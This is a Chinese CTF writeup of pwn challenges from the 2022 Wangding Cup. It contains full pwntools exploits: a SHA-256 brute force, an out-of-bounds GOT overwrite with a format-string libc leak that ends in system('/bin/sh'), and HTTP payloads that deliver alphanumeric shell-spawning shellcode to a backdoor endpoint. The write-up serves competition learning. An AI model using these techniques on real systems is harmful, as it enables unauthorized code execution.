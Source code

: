 ```yaml
---
title: 2022 网鼎杯线上赛 pwn Writeup
date: 2022-08-24 6:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=43/
pin: false
---
```


# 青龙组

## crypto091

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import hashlib
import os
from hashlib import sha256
# context.log_level = 'debug'

def dbg(con=''):
    gdb.attach(p,con)
    # pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

hs = 'c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc'
for i in range(17090000000,17099999999):
	a = sha256('86'+str(i).encode()).hexdigest()
	if(a == hs):
		print(i)
		break

p.interactive()
```

## pwn239

非预期

![image-20220826195259755](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220826195259755.png)

# 白虎组

## program

![image-20220828203615901](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828203615901.png)

got表可写，add函数记录size的数组下标为int类型，且num++是先完成所有赋值操作再自+1，导致可申请11个块内容，能覆盖到num这个下标变量。我们可以利用add功能在0x40a0这个数组上方等间隔地址写入内容，

执行show功能前会对num非0校验，show功能同样存在数组越界，利用这点可以实现在0x40a0这个数组上方等间隔地址泄露其内容，泄露长度在0x40a0这个数组最后几个位置取。

利用思路在0x40a0数组下标为-100时为printf_got+4的位置，-300时存在一个程序地址，泄露程序地址以获得基地址，再修改print_got+8(memset_got)为printf_plt，利用格式化字符串泄露libc地址(这里因为用stycpy写入内容，存在offbynull不能直接泄露got表)，泄露后用同样的方法改menset_got为system即可

![image-20220828203820184](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828203820184.png)

![image-20220828204225818](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828204225818.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import hashlib
import os
from hashlib import sha256
# context.log_level = 'debug'

ip = ""
port = ""
# p = remote(ip,port)
p = process("./main")

elf = ELF("./main")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    # pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------
def add(con,size):
	sl('1')
	p.sendlineafter("Please enter your data:",con)
	sla('Please enter the length of your data:',size)

def show(idx):
	sl("2")
	sla("Please enter the entry number of your data:",idx)

dest = 0x40A0

for i in range(10):
	add('\x00'*98,1)
	
# dbg('b *$rebase(0x13E5)\nc\n')
add('b'*8+p64(8),-2)
# dbg("dq $rebase(0x40a0) 200\n")

show(-3)
p.recvline()
base = u64(p.recv(6).ljust(8,'\x00'))-0x6b8
lg('base')

# dbg("dq $rebase(0x40a0) 200\n")
add('b'*4+p64(base+0x1070)[:-1],1)

for i in range(10):
	add('\x00'*98,1)
add('b'*8+p64(8),-1)# num=0
add('%33$p',1)

sl(2)
sl(1)

p.recvuntil("0x")
libc_base = int(p.recvuntil("Pl")[:-2],16)-0x24083
lg('libc_base')
bin_sh = libc_base+libc.search("/bin/sh").next()
system = libc_base + libc.sym['system']
one = libc_base +0xe3b01
lg('bin_sh')

for i in range(9):
	add('\x00'*98,1)
add('b'*8+p64(8),-2)
add('b'*4+p64(system),1)

add('/bin/sh',1)
sl(2)
p.interactive()
```

## Easybackdoor

逆向处理命令的函数fetch，获得输入命令的方式

输入后会判断输入是否可视化，同时判断相应字段执行功能

![image-20220827171338887](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220827171338887.png)

backdoor需要登录验证才能执行，会直接执行输入的shellcode，在执行前对寄存器进行了赋值，所以要先清空寄存器(汇编xor)，然后和shellcode拼接，用alpha3生成可视化shellcode

![image-20220827171531529](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220827171531529.png)

```python
from pwn import *
context.arch='amd64'
sc = '''
xor edi, edi
xor esi, esi
xor edx, edx
'''
scl = asm(sc)+asm(shellcraft.sh())
print scl
```



```python
# _*_ coding:utf-8 _*_
from pwn import *
p = process("./chall")
elf = ELF("./chall")
libc = elf.libc

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

pay = "POST /Login HTTP/1.0\r\n"
pay += "Content-Length:{}\n".format(len("root&R00T"))+'\n'
pay += "root&R00T"
ru("content> ")
p.send(pay)

sc = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M1L8N1M8N1O3s2G0P164I1P0Q2z1l0h7O1O0B0f1L3P3F080B08031K4p0X2t0i060N001N3V2t0Z0n0o14024v0e2n4y3N114P0Z130h7l040A04'
pay = "POST /B4ckd0or HTTP/1.0\r\n"
pay += "Content-Length:{}\n\n".format(len(sc))
pay += sc
ru("content> ")
p.send(pay)

p.interactive()
```

